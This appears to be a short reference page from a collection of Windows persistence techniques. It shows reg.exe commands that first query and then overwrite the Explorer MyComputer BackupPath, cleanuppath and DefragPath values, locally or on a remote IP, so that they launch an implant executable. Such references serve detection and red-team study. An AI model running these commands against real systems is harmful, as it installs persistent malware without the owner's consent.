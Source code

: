 # Explorer tools 

```
C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /v BackupPath

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /v cleanuppath

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /v DefragPath
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /t REG_SZ /v BackupPath /d "C:\path\to\implant.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /t REG_SZ /v cleanuppath /d "C:\path\to\implant.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer /t REG_SZ /v DefragPath /d "C:\path\to\implant.exe" /f
```

---
## References

- [Persistence Info: Explorer tools](https://persistence-info.github.io/Data/explorertools.html)